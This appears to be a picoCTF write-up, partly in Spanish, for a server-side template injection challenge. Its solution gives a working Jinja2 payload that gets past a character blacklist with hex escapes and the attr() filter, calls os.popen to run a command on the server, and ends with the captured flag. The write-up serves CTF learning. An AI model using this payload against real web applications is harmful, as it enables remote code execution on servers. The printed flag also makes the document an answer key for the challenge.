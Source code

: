 I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :)I heard templating is a cool and modular way to build web apps! Check out my website [here](http://shape-facility.picoctf.net:56389/)!

Hints:
1. Server Side Template Injection
2. Why is blacklisting characters a bad idea to sanitize input?

## Solución:
Para este reto es igual a el SSTI 1 solo que aqui hay como una lista negra de los strings que son removidos por lo cual unicamente hay que modificar la inyeccion anterior para que lo detecte de otra forma: `{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('grep picoCTF . -rnw')|attr('read')()}}` asi obtenemos la flag.

```
# picoCTF{sst1_f1lt3r_byp4ss_eb2a60e7}
```